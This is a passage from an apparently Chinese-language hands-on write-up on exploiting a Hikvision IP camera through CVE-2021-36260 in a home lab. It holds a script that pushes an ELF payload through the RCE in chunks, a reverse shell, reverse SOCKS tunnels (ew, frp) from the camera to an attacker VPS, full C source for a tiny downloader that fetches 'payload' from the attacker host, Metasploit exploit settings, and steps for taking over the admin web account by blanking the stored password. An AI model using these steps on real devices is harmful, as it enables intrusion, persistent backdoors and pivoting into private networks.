file_path = sys.argv[2]

with open(file_path, 'rb') as file:
    elf_data = file.read()

hex_string = ''.join(['\\x{:02x}'.format(byte) for byte in elf_data])

hex_string_len = len(hex_string)
print(hex_string_len)

# 动态设置 Host 字段
headers['Host'] = urllib.parse.urlparse(target).netloc

i = 0
for chunk in read_string(hex_string, chunk_size=180):
    result = sendPayload(target, chunk)
    if not result:
        print('send again')
        result = sendPayload(target, chunk)
    if result:
        print(str(i) + '/' + str(hex_string_len))
        i += 180
    else:
        print('Request failed.')
        sys.exit(1)

print('Over')
```


#### 3) MSF 监听端口


#### 4) 添加权限并执行 payload


成功反弹 shell 并测试上传文件


成功上传文件

#### 5) 建立代理

> https://github.com/fatedier/frp
> 
> https://github.com/fatedier/frp/releases/download/v0.55.1/frp\_0.55.1\_linux\_arm.tar.gz

下载 `arm` 32 位版本的

在尝试通过 `meterpreter` 进行上传 frp 时，结果传到一半，`meterpreter` 就断了，之后就出现了


看来是重启了，之前所有的操作没了，这用来做痕迹清除可太方便了

咱就不苦中作乐了，现在有两种思路

-   `meterpreter` 继续上传
    
-   直接将 `frp` 等 `echo` 进去
    

-   可以先 `echo` 一个最简单的下载器进去
    
-   下载器可以不是通用下载，只是从某个地址下载某个文件，可能体积更小
    

选择哪个方法呢？在我看来 `meterpreter` 的方法更优，但是我们两个都实现一下，这一部分先实现 `meterpreter`

再次利用脚本上传、建立监听、赋予权限并执行


上传 frp


好吧，看来这个海康威视设备的性能确实不支持我们直接传递 11 M 的程序

上传 ew

ew 小多了，只有 195K




创建代理

> https://github.com/idlefire/ew

攻击机 VPS (192.168.1.125) 模拟公网 IP

```plain
./ew -s rcsocks -l 1080 -e 8888
```

建立代理监听 1080 端口，并将数据通过 8888 端口传递出去


受害摄像头 (192.168.1.64)

```plain
./ew -s rssocks -d 192.168.1.125 -e 8888      
```


攻击机物理机（192.168.31.x）

在上一步我们做了隔离，`192.168.1.126` 只允许同网段非 `192.168.1.97` 访问

使用 `socks5://192.168.1.125:1080` 访问 `http://192.168.1.126`


尝试用代理访问


成功建立代理

## 0x04 利用下载器

> 这部分坑特别多，我耗费了几天才找到解决办法，接下来将展示踩坑过程，我会尽量简洁，忽略小坑

通过上面的步骤，我们已经可以完成实际控制，但是直接写入木马或者代理对部分设备本身来说可能有不小的压力，尤其是这种嵌入式设备，我这次测试就被迫重启了好多好多次，每次重启设备上的木马等痕迹就完全清空了

想象一下我们先传输了 `MSF` 木马，之后利用 `meterpreter` 传输了代理或者攻击程序，利用了一小会儿设备崩了，重启，一切又回到原样了，于是我们就进入了循环，但问题是，这些循环是人来驱动的，并不工程化，这不是实际攻击实施过程中追求的

**我们更希望这部分内容是工程化的**，而且由于指令集的不同，各种木马程序和代理程序是否能够兼容也是一个巨大的问题

这节我们要介绍一些恶意攻击者常用的思路，也就是先传输小的下载器进去，之后利用下载器下载真正的 payload，当然了，其实写入 `meterpreter` 的本质也是一样的

可能有小伙伴会说，这不难呀，有必要单独说吗？

这里单独拿出来写是因为涉及到下载器编写、跨平台编译等，我们先看一下成型的下载器


`wget` 和 `curl` 由于做了很多功能，所以比较大，还不如直接写入一个 `ew` 了

### 1\. 编写下载器

下面我们来写一个最小的下载器，功能就下载 `http://192.168.1.125/a`

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <sys/stat.h>
#include <sys/types.h>

#define BUFFER_SIZE 4096

int main(void) {
    const char *host = "192.168.1.125";
    const char *path = "/a";
    const char *output_file = "payload";
    const int port = 80;

    struct sockaddr_in server_address;
    int sockfd, filefd;
    char request[256];
    char buffer[BUFFER_SIZE];
    ssize_t bytes_read;
    int start_writing = 0;  // Flag to start writing to file

    // Create socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        fprintf(stderr, "Error creating socket\n");
        return 1;
    }

    // Set server address
    memset(&server_address, 0, sizeof(server_address));
    server_address.sin_family = AF_INET;
    server_address.sin_port = htons(port);
    if (inet_pton(AF_INET, host, &(server_address.sin_addr)) <= 0) {
        fprintf(stderr, "Invalid address or address not supported\n");
        close(sockfd);
        return 1;
    }

    // Connect to server
    if (connect(sockfd, (struct sockaddr *)&server_address, sizeof(server_address)) < 0) {
        fprintf(stderr, "Error connecting to server\n");
        close(sockfd);
        return 1;
    }

    // Send HTTP GET request
    snprintf(request, sizeof(request), "GET %s HTTP/1.1\r\nHost: %s\r\n\r\n", path, host);
    if (write(sockfd, request, strlen(request)) < 0) {
        fprintf(stderr, "Error sending request\n");
        close(sockfd);
        return 1;
    }

    // Open output file
    filefd = open(output_file, O_WRONLY | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
    if (filefd < 0) {
        fprintf(stderr, "Error opening file for writing\n");
        close(sockfd);
        return 1;
    }

    // Read and write response data
    while ((bytes_read = read(sockfd, buffer, BUFFER_SIZE)) > 0) {
        // Check if the response headers have ended
        if (!start_writing) {
            char *body_start = strstr(buffer, "\r\n\r\n");
            if (body_start != NULL) {
                start_writing = 1;
                bytes_read -= (body_start - buffer + 4);
                memcpy(buffer, body_start + 4, bytes_read);
            } else {
                continue;
            }
        }

        if (write(filefd, buffer, bytes_read) < 0) {
            fprintf(stderr, "Error writing to file\n");
            close(filefd);
            close(sockfd);
            return 1;
        }
    }

    // Check for read error
    if (bytes_read < 0) {
        fprintf(stderr, "Error reading response\n");
        close(filefd);
        close(sockfd);
        return 1;
    }

    // Close file and socket
    close(filefd);
    close(sockfd);

    return 0;
}
```

如果再追求小，可以将部分错误处理去掉，同时将输出到文件也去掉，直接输出到标准输出，之后执行的时候通过重定向到文件来完成文件保存

### 2\. 尝试编译程序

大部分朋友的设备都是 `x86` 的，我们需要在 `x86` 的 CPU 上编译 `arm` 架构的程序

本次操作环境为 `Ubuntu Server 22.04 x86_64`

#### 1)  gcc

系统上直接 `apt install gcc` 安装的 `gcc` 显然是不能用于编译了，得安装目标平台专用的`gcc`，这个时候我才发现，单`arm` 相关 `gcc` 来说至少有以下几种

-   arm-none-eabi-gcc
    
-   aarch64-linux-gnu-gcc
    
-   arm-linux-gnueabi-gcc
    
-   arm-linux-gnueabihf-gcc
    

这个时候发现 `ARM` 架构版本之类的挺复杂，gcc 分类方法就有以下几种

Arm 架构上的不同版本的 GCC（GNU Compiler Collection）之间的主要区别体现在以下几个方面：

1.  **目标架构支持**：
    

-   GCC 的不同版本可能支持不同的 Arm 架构，比如 ARMv5TE、ARMv7-A、ARMv8-A（AArch32/AArch64）等。每个版本可能在对特定架构特性的支持程度上有差异，例如浮点运算单元（FPU）、Thumb 模式、NEON SIMD 扩展等。
    

3.  **ABI 兼容性**：
    

-   ABI（Application Binary Interface）决定了二进制文件如何与操作系统交互。不同的 GCC 版本可能遵循不同的 ABI 规范，如 EABI（Embedded ABI）、Hard/Soft Float ABI 等。这些规范会影响到函数调用约定、数据类型布局等。
    

5.  **C++ 标准库支持**：
    

-   不同版本的 GCC 支持的 C++ 标准也会有所不同，比如 C++98、C++11、C++14、C++17 等。
    

7.  **优化程度和 bug 修复**：
    

-   新版本的 GCC 通常包含对编译器优化算法的改进和 bug 修复，这会影响编译出的程序性能和稳定性。
    

9.  **工具链完整性**：
    

-   不同版本的 GCC 交叉编译工具链可能包含不同的组件集，如 binutils（as、ld）、glibc/musl/uClibc 等不同 C 库的适配。
    

11.  **安全特性**：
    

-   新版本的 GCC 可能增加了对特定安全特性的支持，如 stack protector、address sanitizer、undefined behavior sanitizer 等。
    

我们的 CPU 信息

```plain
Processor       : ARM926EJ-S rev 5 (v5l)
BogoMIPS        : 218.72
Features        : swp half thumb fastmult edsp java
CPU implementer : 0x41
CPU architecture: 5TEJ
CPU variant     : 0x0
CPU part        : 0x926
CPU revision    : 5

Hardware        : r2
Revision        : 0000
Serial          : 0000000000000000
```

我们选择 `arm-linux-gnueabi-gcc` 这个 `gcc`

```plain
sudo apt update
sudo apt install gcc-arm-linux-gnueabi
```

#### 2) 尝试编译并上传执行

先以最简单的 `hello wrold` 为例，测试没问题后再编译我们的下载器

```plain
#include <stdio.h>

int main() {
    printf("Hello, World!\n");
    return 0;
}
```


执行结果显示 `-sh: ./payload.elf: not found` ，这什么情况？

### 3\. 寻找问题原因

#### 1) 检查 hash

难道是传输过程中文件不完整？


不是这个原因，这说明是文件本身有问题

#### 2) 增加编译参数

可能是编译过程中参数有问题，经过查询，发现可以设置 `ARM` 的架构以及 CPU 参数

```plain
arm-linux-gnueabi-gcc -march=armv5tej -mtune=arm926ej-s hello.c
```


还是这个结果

#### 3) 使用汇编语言测试

用汇编语言写 `hello wrold` ，之后用我们选择的编译器进行编译、连接，看看是否也会这样

```plain
    .data
msg:
    .ascii "Hello, world!\n\0"

    .text
    .global _start

_start:
    mov r0, #1      @ stdout file descriptor
    ldr r1, =msg    @ address of the message
    ldr r2, =13     @ length of the string (including newline)
    mov r7, #4      @ syscall number for write()

syscall_write:
    svc #0          @ make system call

    mov r7, #1      @ syscall number for exit()
    mov r0, #0      @ exit code

syscall_exit:
    svc #0          @ make system call to exit
```

编译、链接

```plain
arm-linux-gnueabi-as hello_world.s -o hello_world.o   # 编译为目标文件
arm-linux-gnueabi-ld -o hello_world hello_world.o   # 链接目标文件为可执行文件
```


可以看到汇编程序可以成功执行，那就说明编译器没有选择错，代码肯定也没有问题，那就是 `libc` 出了问题

> 原本我想用汇编写一个下载器，但是我不会 ARM 汇编，遂作罢

#### 4) 检查动态链接器

难道说目标系统上不存在动态链接器吗？


目标环境中检查动态链接器


果然，目标系统上的动态链接器是 `uClibc`，我们尝试新建一个文件，命名为 `/lib/ld-linux.so.3` ，之后看看我们的程序在这前后执行有没有什么不同


问题原因找到了，看来是 `libc` 的原因，这样我们就有两条路可以走了

-   静态编译
    
-   编译 `uClibc` 为动态链接器的程序
    

#### 5) 静态编译

这个简单，只需要加一个 `-static` 参数就可以了

```plain
arm-linux-gnueabi-gcc -march=armv5tej -mtune=arm926ej-s -static hello.c
```


静态编译后大小有 `567K` ，与 `ew` 差不多，`567K` 通过 `echo` 写入需要非常长的时间，最关键的是，传输到不到一半就会导致摄像头崩溃，重启，之后一切都重来，但是我们可以通过在每次发包之间加入时间延时来解决

这里我就直接用 `MSF` 上传上去了


好家伙，没有活路了呀，静态编译都显示内核太老了，难道我还再整个低版本内核的系统进行编译吗？

#### 6) 编译 uClibc

还是编译 `uClibc` 吧，之后动态链接

> https://uclibc.org/

我们也选择 `0.9.32.1` 版本

```plain
# 下载 uClibc
wget https://uclibc.org/downloads/uClibc-0.9.32.1.tar.xz

# 解压
tar -xf uClibc-0.9.32.1.tar.xz

# 配置
make menuconfig
```


```plain
Target Architecture 选择 arm
```


```plain
Target Architecture Features and Options
  Target ABI 									-> EABI
  Target Processor Type 			-> Arm 926T
  Target Processor Endianness -> Little Endian
```


保存


编译

```plain
make
sudo make install
```


报错了，难道 `gcc` 不支持 `-mlittle-endian` 参数吗，测试一下


`arm-linux-gnueabi-gcc` 没问题呀，难道编译用的是系统的 `gcc` 吗


果然，我们既然是给 `ARM` 平台使用的，那就需要使用 `arm-linux-gnueabi-gcc` 进行编译

再次 `make menuconfig`

```plain
 uClibc development/debugging options
 		Cross-compiling toolchain prefix -> arm-linux-gnueabi-
```


再次

```plain
make 
make install
```

再次报错


看这样我们需要配置 `kernel headers`

```plain
Target Architecture Features and Options
		Linux kernel header location
```


再次 `make`


又有新的报错，到这里查询网上资料我也不知道该如何解决了

看看 `uClibc` 官网，发现了这个

> https://uclibc.org/toolchains.html



这里面说要编译 `GNU binutils`、`GCC`、`uClibc` 形成一个工具链，在后面我们发现了一个好东西 —— `buildroot`，网上查询之后，类似的工具还不少

> https://buildroot.org/

#### 7) buildroot

> https://buildroot.org/


> 安装过程参考
> 
> https://www.zhiwanyuzhou.com/index.php/2022/07/17/%E4%BD%BF%E7%94%A8buildroot%E5%88%B6%E4%BD%9C%E4%BA%A4%E5%8F%89%E7%BC%96%E8%AF%91%E5%B7%A5%E5%85%B7%E9%93%BE/
> 
> 官方手册
> 
> http://nightly.buildroot.org/manual.pdf

```plain
# 安装部分依赖软件
sudo apt update
sudo apt install gcc make libncurses5-dev
sudo apt install qemu-user

# 下载
wget https://buildroot.org/downloads/buildroot-2024.02.tar.gz
# 解压
tar -zxvf buildroot-2024.02.tar.gz

cd buildroot-2024.02/
# 编译配置
make menuconfig
```



熟悉的页面又回来了

```plain
Target options 
		Target Architecture 				-> ARM (little endian)
		Target Architecture Variant -> arm926t
这部分剩下不需要动
```



```plain
Toolchain
		C library 										-> uClibc-ng
		Kernel Headers 								-> Manually specified Linux version
		linux version  								-> 3.0.8
		Custom kernel headers series 	-> 3.0.x
		Enable C++ support 						-> *
```


这里面的内核版本 `3.0.8` 是通过在目标系统执行 `cat /proc/version` 得到的


保存


```plain
# 编译
make toolchain -j4 V=0
```

这部分如果报错都好解决，例如安装 `g++`

> 这部分非常非常长，就连 `uClibc` 官网都建议我们去吃一个美味健康的三明治，喝一杯汽水，给朋友打电话，玩玩电子游戏，然后找点事情做，我就去吃个饭吧


在这个过程中会下载大量的文件，如果空间不够会导致失败，由于我之前测试已经在其他目录编译过了，这次出现了编译失败，删除文件腾出空间后编译成功，总大小如下


可以在编译所在的目录的相对目录找到编译好的`gcc`

```plain
./output/host/bin/
```


将该文件夹添加到环境变量中

```plain
echo "export PATH=\$PATH:$(pwd)" >> ~/.bashrc
source ~/.bashrc
```

测试一下

```plain
arm-linux-gcc --version
```


成功添加至环境变量，可以在任意目录直接调用了

### 4\. 再次尝试编译程序

#### 1) 静态编译

```plain
arm-linux-gcc -static hello.c
```


使用 `qemu` 模拟测试执行成功了，体积有 `113K` 大小，通过 `meterpreter` 上传到目标系统上去


成功执行！！！  但是 `113K` 这个大小还是有点大了，尝试编译动态链接的程序

#### 2) 编译动态链接程序

```plain
arm-linux-gcc hello.c
```


大小 `7.3K` ，看看是否可以运行，这么点大小这次直接用 `PoC` 上传


成功啦！！！

#### 3) 编译下载器


去除符号信息后 `5.2K`

### 5\. 尝试远程下载代理程序

这次争取不用 `SSH` ，完全用 `RCE` 漏洞

修改 `frpc.toml`

```plain
serverAddr = "192.168.1.125"
serverPort = 7000

[[proxies]]
name = "plugin_socks5"
type = "tcp"
remotePort = 1080

[proxies.plugin]
type = "socks5"
```

将 `frpc` 和 `frpc.toml` 打包，重命名为 `a`


配置 `FRP` 监听

```plain
bindPort = 7000
```


通过 `PoC` 上传下载器，并搭建 `HTTP`  服务器


等一会儿，等它传输完


下载器会将文件下载至你执行下载器的文件夹下，而不是下载器本身所在的文件夹下

### 6\. 尝试建立 socks5 代理

解压 `frpc`，也就是 `payload` 文件

在这千钧一发之际，果然，这个摄像头系统又崩了，看来性能实在堪忧，当然这是对于我们额外的需求来说


重复测试


再次崩溃，但这根本难不倒我，我们将 `frpc` 和 `frpc.toml` 分别命名为 `a` ，之后下载两次


万事俱备，可以开始建立代理了


没有代理建立成功，通过 ssh 上去执行一下看看


校验一下 `Hash`


看来这 `frp` 的 `arm` 版与这个并不兼容

### 7\. 编译 frpc

搭建 GO 环境

> https://go.dev/doc/install

```plain
 wget https://dl.google.com/go/go1.22.1.linux-amd64.tar.gz
 rm -rf /usr/local/go && tar -C /usr/local -xzf go1.22.1.linux-amd64.tar.gz
 export PATH=$PATH:/usr/local/go/bin
```

拉取 `frp` 源代码

```plain
git clone https://github.com/fatedier/frp.git
```

静态编译 `frpc`

```plain
export GOARCH=arm
export GOARM=5  # 对应 ARMv5 架构
export CGO_ENABLED=1
export CC=/home/join/download/buildroot-2024.02/output/host/bin/arm-linux-gcc
export CXX=/home/join/download/buildroot-2024.02/output/host/bin/arm-linux-g++

go env -w GOPROXY=https://goproxy.cn,direct
go build -ldflags '-extldflags "-static" -s -w' -tags netgo -o frpc_arm_v5 cmd/frpc/*.go
```


这里环境变量 `CC` 和 `CXX` 分别对应我们用 `buildroot` 生成的 `gcc` 以及 `g++`

### 8\. 建立代理

VPS (192.168.1.125)

```plain
./frps -c frps.toml
```

受害摄像头

上传下载器 -> 下载 `frpc` -> 下载 `frpc.toml` -> 建立代理


执行 `frpc -c frpc.toml`


成功获取到代理

### 9\. 使用代理访问受限网络


成功访问到 `192.168.1.126`

## 0x05 Metasploit

其实 `Metasploit` 中自带了 `CVE-2021-36260` 的 `Payload`，攻击起来异常便利

```plain
search CVE-2021-36260
```


填写部分信息

```plain
set rhost 192.168.1.64
set lhost 192.168.1.125
show targets 
set target Linux Dropper
```



```plain
exploit
```


看起来和我们之前的 `echo` 操作是一样的


成功获取到 `shell`

从 `192.168.1.125` 访问 `192.168.1.126` 是访问不通的


添加路由

因为本身 `VPS` 就处于 `192.168.1.0` 这个段了，这样我们就直接添加一个到 `192.168.1.126` 的路由

```plain
route add 192.168.1.126 255.255.255.255 192.168.1.64
```


配置 `socks5` 代理，监听 `1080` 端口


利用代理访问受限网络


## 0x06 登录 Web 后台

> https://github.com/jorhelp/Ingram/discussions/9

根据上面链接，找到数据库位置 `/devinfo/ipc_db` ，是 `sqlite3` 数据库，可以使用 `DB Broswer` 打开，可以修改后覆盖原本的数据库，重启后生效



大家讨论出两种方案

-   命令行执行 `resetParam` 清空管理员的密码，默认用户 `admin`
    
-   将已知账号密码 (例如`user/userpass`) 加密后的结果直接写入到用户密码所在的表
    

这两种情况看起来都能解决问题，但并不通用

第一种方法的 `resetParam` 并不见得在所有的情况下都有，或者说有，也不见得大家都能找到，找到了设备厂商也有可能设置了第二部校验；

第二种方法看似完美，但是前提是我们有已知的信息，如何获取信息可能是个问题，不能总是去买个设备或者找存在弱口令的设备

这两种方法都可以稍微再完善些，我提出一种较为通用的方案

### 1\. 下载数据库并备份




### 2\. 修改数据库


将 `passwd` 的值记录保存并置空

```plain
:b0:f:2c:fa:d9:a6:42:2f:c5:5c:78:26:1f:6f:f3:39
```

当然，我们是可以搜索到这个设备的默认管理员用户为 `admin` ，从格式上看，用户名和密码采用的编码方式是一样的，所以将密码设置为用户名应该也是可以的，但这种事并不通用，常见的是密码加密，用户名不加密，所以我们还是选择将密码置空


保存

### 3\. 上传并覆盖原有数据库


覆盖后重启设备

### 4\. 尝试登录


直接就让我们修改密码


成功登录后台

### 5\. 新建用户

新建 `user/user1234`


尝试用新用户登录


此时新创建的用户权限并没有 `admin` 那么大

### 6\. 再次修改数据库

复制 `admin` 的权限给 `user` ，恢复 `admin` 的密码





### 7\. 权限测试


可以看到，已经是管理员权限了，但是添加、删除用户还不能用，是灰色的，猜测可能是前端问题



将 `disabled="disabled"` 删除掉


这回看看功能是否可用了


添加一个普通用户 `demo`


尝试使用 `demo` 登录


我们可以试试操作员 `demo` 会不会存在权限问题，创建账户测试


还好，没有这种基础性错误

尝试使用 `admin` 原来的密码进行登录，看看是否恢复成功


成功登录

### 8\. 通用性延伸

在很多系统中，直接修改数据库并不是直接让用户修改密码的，而是需要使用空密码进行登录，其实在这个系统上除了 `admin` 用户，也是一样的，前期测试的时候没有直接对 `admin` 下手，所以就遇到更加通用的情况，接下来将演示将 `user` 的密码清空，之后登录后台


重启后尝试使用 `user` 账户登录


这才是常规情况，我们将密码置空了，但是系统不允许空密码登录，我们可以看一下是前端不让还是后端，抓包


看来是前端的限制，我们是不是可以直接抓包，修改呢？


密码是加密后的，我们尝试置空


会引发格式错误，获取新的 `sessionID`，之后直接删除掉 `password` 这个标签测试


还是格式错误，看来这并不是`XML` 的问题，而是接口规定了格式

没关系，前端问题的话，就从前端解决吧，正好之前给大家介绍过 `javascript` 逆向，这就当练习了

复制请求的 URL

```plain
http://192.168.1.64/ISAPI/Security/sessionLogin
```

添加 `xhr` 断点


使用 `user` 账户加任意密码，以 `1234` 为例，登录


可以看到，断点在图中箭头位置，控制台输出一下 `b.hasContent` 和`b.data`


可以看到到这里已经是加密后的数据了，从断点处根据调用堆栈向前找明文密码在哪里


可以一点一点向前追溯


可以看到在这个 `doLogin` 处出现了我们的明文密码 `1234` ，我们在此添加断点


释放 `debug` ，再次提交 `user/1234` ，网页在断点处停留


这里有个挺奇怪的一段话

```plain
"anonymous" === $scope.username && (a = "******")
```

没有理解这是要干什么，当然我是进行过登录尝试，没有成功，这里不是重点，我们在断点处修改变量 `a` 的值


释放断点，让程序继续执行


经过测试，这里的修改密码虽然有界面，但是并不会修改密码，所以我们直接选择取消


成功进入后台，我本以为 `admin` 账户也会经历这一段，没想到直接让重置密码了，所以这段主要是给大家做延伸性的展示

## 0x07 浏览数据库

在上一节我们使用了数据库覆盖实现某些功能，在翻数据库的过程中，发现了其他有趣的表

`security_config`


这里涉及到很多配置，例如  `web_auth` 、`ssh_enable` ，我想起了这个漏洞的发现者曾提到过禁用`web` 认证，不知道是不是通过这里，我测试后发现没有效果，可能是这个设备不支持吧

> https://watchfulip.github.io/2021/09/18/Hikvision-IP-Camera-Unauthenticated-RCE.html

但是在修改这些列的数据时，曾经触发过一次 `Basic` 认证，在 `Basic` 认证中可以直接使用 `user` 加上空密码进行登录，但是再次测试的时候就怎么也不出来了

`socks_param`


这个表不知道是系统本身可以开代理还是系统支持使用代理，我们尝试在后台看看有没有代理功能


并没有找到与 `socks` 相关的，所以这里要么是通用功能，只不过在这个小摄像头里没有，要么就是系统自带的代理功能，我们尝试修改数据库，看看能不能有意外惊喜



覆盖，重启

